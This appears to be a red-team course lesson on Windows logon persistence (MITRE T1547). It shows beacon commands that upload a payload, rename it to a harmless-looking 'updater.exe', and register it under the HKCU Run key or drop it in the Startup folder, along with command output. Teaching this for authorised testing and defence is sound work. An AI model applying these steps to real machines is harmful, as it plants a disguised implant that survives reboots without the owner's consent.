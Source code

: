 Boot or Logon Autostart Execution is a collection of techniques [[T1547](https://attack.mitre.org/techniques/T1547/)] where an adversary configures the computer to automatically execute a payload during startup, or when a user logs in.

## Registry Run Keys

The Windows Registry contains multiple keys that allow programs to run when a user logs in.  These are used legitimately to start some default Windows applications, or 3rd party applications that the user has installed.  The two common user keys are:

- HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    
- HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    

The **Run** key is persistent and remains across every reboot of the system; whereas the **RunOnce** key gets automatically deleted after its first run.  To leverage the key, simply write a new value containing the path to a program to run.  The syntax of the `reg_set` command is `reg_set <host:optional> <hive> <key> <value> <type> <data>`.

```powershell
beacon> cd C:\Users\pchilds\AppData\Local\Microsoft\WindowsApps
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe

beacon> reg_set HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater REG_EXPAND_SZ %LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe
Setting registry key \\.\0000000080000001\Software\Microsoft\Windows\CurrentVersion\Run\Updater with type 1
Successfully set regkey
SUCCESS.
```

Read it back with `reg_query` to make sure it was added correctly.
```powershell
beacon> reg_query HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater

  01/07/2025 11:51:52 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    Updater                REG_EXPAND_SZ          %LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe
```

> Use `reg_delete` to remove a registry key or value when it's no longer required.

## Startup Folder

Programs in the user's startup folder will also run automatically on login.  The location of this folder is `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`.  Simply upload an executable into this directory and it will run each time the user logs in.

```powershell
beacon> cd C:\Users\pchilds\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
```

> Delete the file when the persistence is no longer required.